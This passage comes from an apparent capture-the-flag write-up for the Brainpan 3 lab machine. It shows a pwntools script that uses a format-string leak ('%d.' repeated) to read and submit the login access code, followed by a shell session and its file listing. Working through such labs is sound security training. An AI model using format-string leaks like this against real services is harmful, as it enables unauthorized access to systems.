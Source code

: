 ```
```

And we are in! Before we proceed further, let's modify our script to automatically get past the access code:

* Send `%d.%d.%d.%d.%d.%d`
* Extract the third element (access code)
* Submit the access code for login

From here, we'll keep adding snippets of code to the script, but for the sake of brevity of the writeup, only the new code will be shown. Our result is below:

```python
# r - Our socket object

###
# Get access code
###
r.sendline('%d.' * 6)
r.recvuntil("ACCESS CODE: ")
output = r.recv()
code = output.split('.')[2]

log.info("Code identified: {}".format(code))

r.sendline(code)

r.interactive()
```

## Step 2

Now that we are logged in, we can do a bit more exploration. Oh look, we are already given a shell using Command `4`:

```
ENTER COMMAND: 4
SELECTED: 4
reynard@brainpan3 $ ls
total 0
-rw-rw-r-- 1 reynard reynard 22 May 10 22:26 .flag
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 never
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 gonna
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 give
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 you
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 up
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 never
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 gonna
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 let
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 you
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 down
```

Of course, superkojiman would rick roll hackers. Thanks!
